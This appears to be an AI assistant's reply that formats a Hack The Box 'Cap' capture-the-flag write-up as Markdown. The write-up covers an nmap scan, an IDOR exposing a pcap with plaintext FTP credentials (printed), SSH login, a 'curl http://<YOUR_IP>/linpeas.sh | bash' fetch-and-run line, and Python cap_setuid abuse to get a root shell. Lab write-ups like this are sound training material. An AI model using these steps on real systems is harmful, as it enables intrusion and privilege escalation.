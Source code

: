 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245
```

**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](../images/2%20Webpage.jpg)
![Network Info on Web Dashboard](../images/3%20Web%20Dashboard.jpg)
```

#### **02-Foothold.md**
```markdown
# Foothold

## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

![Security Snapshot](../images/4%20Security%20Snap%20shot.jpg)
![Security Snapshot - User 0](../images/5%20Scurity%20Snap%20Shot%20user%200.jpg)

## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```

![SSH into Nathan](../images/9%20ssh%20into%20nathan.jpg)

You now have a foothold on the system.
```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```

The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![User Flag](../images/10%20user%20flag.jpg)
```

---

This Markdown content is designed for your GitHub write-up. Make sure the images are placed in a folder named `images` inside the Cap folder in your GitHub repository, and update the image paths accordingly.

Let me know if you need more adjustments!
